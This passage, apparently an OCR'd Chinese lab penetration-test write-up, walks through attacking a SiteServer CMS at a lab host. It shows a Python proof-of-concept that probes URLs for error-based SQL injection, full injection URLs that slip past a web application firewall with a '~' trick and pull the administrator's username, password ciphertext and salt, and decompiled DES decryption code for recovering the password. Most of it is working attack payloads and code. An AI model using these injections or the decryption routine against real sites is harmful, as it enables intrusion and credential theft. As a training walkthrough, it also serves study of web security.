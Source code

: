 ```
]

for p in ps:

#构建测试payload
url='http://www.moonlab.com/'+p
res = requests.get(url)

#判断是否存在漏洞并将对应测试url打印输出
if res.status_code==500 and "GAOJIMicrosoft" in res.text:
print(url)
print(res.text)
```
1. `使用poc进行测试，`
<br/> 访问漏洞url，发现报错注入，爆出版本信息，是MSSql数据库。

<br/> 试试能不能爆出数据库名称，直接被狗拦截。

<br/>`加“~”过防护，语句：`
1. `http://www.moonlab.com/usercenter/platform/user.aspx?UnLock=sdfe%27&amp;UserNameCollection=test%27)%20and%20char(71)%2Bchar(65)%2Bchar(79)%2Bchar(74)%2Bchar(73)%2Bdb_name()=~2;%20--`
<br/> 此时可以本地去下载siteserver搭建，看看数据库结构。

`最终的绕狗语句，查询用户：`
1. `http://www.moonlab.com/usercenter/platform/user.aspx?UnLock=sdfe%27&amp;UserNameCollection=test%27)%20and%20~1=(select%20top%201%20username%20from%20[bairong_Administrator]);%20--`1. `查询密文：`1. `http://www.moonlab.com/usercenter/platform/user.aspx?UnLock=sdfe%27&amp;UserNameCollection=test%27)%20and%20~1=(select%20top%201%20password%20from%20[bairong_Administrator]);%20--`
`查询key：`
1. `http://www.moonlab.com/usercenter/platform/user.aspx?UnLock=sdfe%27&amp;UserNameCollection=test%27)%20and%20~1=(select%20top%201%20PasswordSalt%20from%20[bairong_Administrator]);%20--`1. `账号 密文 key`1. `admin 64Cic1ERUP9n2OzxuKl9Tw== LIywB/zHFDTuEA1LU53Opg==`
###### 4.1.2 寻找加解密算法程序
<li>`使用dnSpy 反编译得到加密文件，找到解密代码。` <pre><code>public void DesDecrypt()
{
byte[] rgbIV = new byte[]
{
18,
52,
86,
120,
144,
171,
205,
239
};
byte[] array = new byte[this.x3c811436980dcf17.Length];
try
{
byte[] bytes = Encoding.UTF8.GetBytes(this.x6d0b493f217f133b.Substring(0, 8));
DESCryptoServiceProvider descryptoServiceProvider = new
DESCryptoServiceProvider();
array = Convert.FromBase64String(this.x3c811436980dcf17);
MemoryStream memoryStream = new MemoryStream();
if (!false)
{
}
CryptoStream cryptoStream = new CryptoStream(memoryStream,
descryptoServiceProvider.CreateDecryptor(bytes, rgbIV), CryptoStreamMode.Write);
cryptoStream.Write(array, 0, array.Length);
cryptoStream.FlushFinalBlock();
Encoding encoding = new UTF8Encoding();
this.xc7d800b8a71773fd = encoding.GetString(memoryStream.ToArray());
}
